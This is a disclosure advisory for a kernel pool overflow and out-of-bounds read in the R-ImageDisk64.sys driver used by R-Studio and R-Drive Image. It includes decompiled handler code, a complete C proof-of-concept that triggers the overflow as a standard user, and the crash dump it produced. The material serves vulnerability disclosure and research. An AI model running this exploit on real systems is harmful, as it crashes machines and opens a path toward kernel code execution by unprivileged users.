







| Product | R-Studio / R-Drive Image |
| Driver | R-ImageDisk64.sys |
| Version | 00.00.0018 (compiled 2014-10-10) |
| Vendor | R-TT Inc. — office@r-tt.com |
| Platforms | Windows 10 (all builds), Windows 11 < 22H2 |
| Impact | DoS confirmed — kernel memory corruption, RIP control demonstrated |
| CVSS 3.1 | 7.8 — AV:L/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H |
| Disclosed | 2026-04-23 |
R-ImageDisk64.sys is a kernel driver shipped with R-Studio and R-Drive Image — data recovery and disk imaging tools by R-TT Inc. The driver provides virtual disk functionality, mounting raw disk images as virtual drives.
The driver was compiled in 2014 targeting Windows NT 4.0 era APIs. It carries no
modern mitigations — no ASLR, DEP, or CFG — and uses the deprecated
ExAllocatePool API which was removed entirely in Windows 11 22H2.
Analysis was performed using IDA Pro (static) and WinDbg (dynamic) on Windows 10
x64 Build 19045 in an isolated VMware environment. Driver was loaded via
OSR Driver Loader for testing.
Upon mounting a disk image through R-Studio, the driver registers child devices
using IoCreateUnprotectedSymbolicLink — no security descriptor is
applied. Any local user without administrator rights can open:
\\.\GLOBALROOT\Device\R-ImageDisk\R-ImageDiskCd0
\\.\GLOBALROOT\Device\R-ImageDisk\R-ImageDisk0

IOCTL 0x8000E004 uses METHOD_NEITHER —
IRP->UserBuffer is a raw userspace pointer.
The kernel requirement is to call ProbeForRead before access.
This call is absent. The handler reads directly from UserBuffer
without any validation.
Confirmed dynamically: sending a buffer with a valid path at offset +17
returned ok=1, proving the driver read our userspace memory
and attempted to open the path.
The IOCTL handler computes allocation and copy sizes from attacker-controlled
data at UserBuffer+15 without any bounds check:
// UserBuffer[15] is a WORD — no ProbeForRead, no bounds check
alloc_size = 2 * *(WORD*)(UserBuffer + 15) + 2;
copy_size = 2 * *(WORD*)(UserBuffer + 15);
pool_buf = ExAllocatePool(NonPagedPool, alloc_size);
qmemcpy(pool_buf, UserBuffer + 17, copy_size); // ← overflowWith UserBuffer[15] = 0x8000:
alloc_size = 0x10002 (allocated in NonPagedPool)
copy_size = 0x10000 (copied from UserBuffer+17)
overflow = 0xFFFE bytes past the end of the allocated block
The path string from UserBuffer is passed to a length computation
routine using an unbounded loop with no maximum length check:
unsigned __int16 *v3 = a1; // a1 = UserBuffer path — no ProbeForRead
while ( *v3++ ) // ← reads past buffer if no null terminator
;
return v3 - a1 - 1;
If the buffer contains no null terminator 0x0000, the loop reads
indefinitely into kernel memory — out-of-bounds read.

ExAllocatePool without pool tag ×3 — undefined behavior, incompatible with Windows 11 22H2+ (API removed)swprintf without explicit length bound — potential stack buffer overrunIoCreateUnprotectedSymbolicLink — device accessible to any local userTested on Windows 10 x64 Build 19045. Executed as a standard user. Requires a disk image to be mounted via R-Studio first.
/*
* R-ImageDisk64.sys — Heap Overflow PoC
* Triggers: PAGE_FAULT_IN_NONPAGED_AREA (BugCheck 0x50)
* At: R-ImageDisk64.sys+0x30901 (retn)
*/
#include <windows.h>
#include <stdio.h>
#define TARGET L"\\\\.\\GLOBALROOT\\Device\\R-ImageDisk\\R-ImageDiskCd0"
#define IOCTL 0x8000E004
int main() {
HANDLE h = CreateFileW(TARGET,
GENERIC_READ | GENERIC_WRITE,
FILE_SHARE_READ | FILE_SHARE_WRITE,
NULL, OPEN_EXISTING, 0, NULL);
if (h == INVALID_HANDLE_VALUE) { return 1; }
DWORD bufSize = 0x10024;
PBYTE buf = VirtualAlloc(NULL, bufSize, MEM_COMMIT, PAGE_READWRITE);
memset(buf, 0, bufSize);
// trigger: alloc=0x10002, copy=0x10000 → overflow 0xFFFE bytes
*((WORD*)(buf + 15)) = 0x8000;
// valid null-terminated path to pass length routine
wchar_t *p = (wchar_t*)(buf + 17);
p[0]=L'C'; p[1]=L':'; p[2]=L'\\'; p[3]=0;
// fill with pattern for minidump identification
for (DWORD i = 25; i < bufSize - 8; i += 8)
memcpy(buf + i, "OVERFLOW", 8);
DWORD ret = 0;
DeviceIoControl(h, IOCTL, buf, bufSize, NULL, 0, &ret, NULL);
VirtualFree(buf, 0, MEM_RELEASE);
CloseHandle(h);
return 0;
}
Running the PoC produced the following BugCheck:
BugCheck : 0x00000050 (PAGE_FAULT_IN_NONPAGED_AREA)
param1 : 0xFFFFD60D88803000 (faulting address)
param2 : 0x0000000000000002 (EXECUTE attempt)
param3 : 0xFFFFF8078C7D0901 (faulting instruction)
Module : R-ImageDisk64.sys
Offset : +0x30901
Instruction: retn

Full reproduction from standard user account — OSR Loader, disk image mount, single DeviceIoControl call.